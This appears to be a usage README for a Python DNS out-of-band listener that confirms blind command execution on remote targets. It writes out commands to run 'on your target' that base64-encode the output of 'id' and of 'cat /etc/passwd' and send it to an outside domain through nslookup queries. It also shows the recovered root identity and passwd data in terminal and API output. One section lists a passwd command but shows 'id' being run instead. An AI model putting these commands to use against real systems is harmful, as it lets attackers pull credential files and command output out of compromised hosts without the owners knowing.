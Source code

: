 #Usage

###start###  
nohup python checkvul.py 2>&1 &

###query###

Execute The Following Command On Your Target:

id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup

##############################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info
Address: 127.0.0.1
##############################################################################################

Access following API:
http://127.0.0.1/_query

Response:

"""  
ECHO

uid=0(root) gid=0(root) groups=0(root)

****************************************************************************************************
DNS
dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
xdebug.info. 45.32.103.184 2018-11-19 16:36:28
****************************************************************************************************

""""

###check###

nslookup check.7b0f687d4d6d.xdebug.info

######################################################
root@vultr:~# nslookup check.7b0f687d4d6d.xdebug.info
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	check.7b0f687d4d6d.xdebug.info
######################################################

Request API:
http://localhost/_check?type=dns&uuid=7b0f687d4d6d

Response JSON:
{"result": 1, "uuid": "7b0f687d4d6d", "log": "check.7b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:22:41"}

###echo###

cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup

##########################################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".9b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.9b0f687d4d6d.xdebug.info
Address: 127.0.0.1

##########################################################################################################

Request API:
http://localhost/_echo?type=dns&uuid=9b0f687d4d6d

Response JSON:
{"result": "uid=0(root) gid=0(root) groups=0(root)\n", "uuid": "9b0f687d4d6d", "log": "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:27:31"}
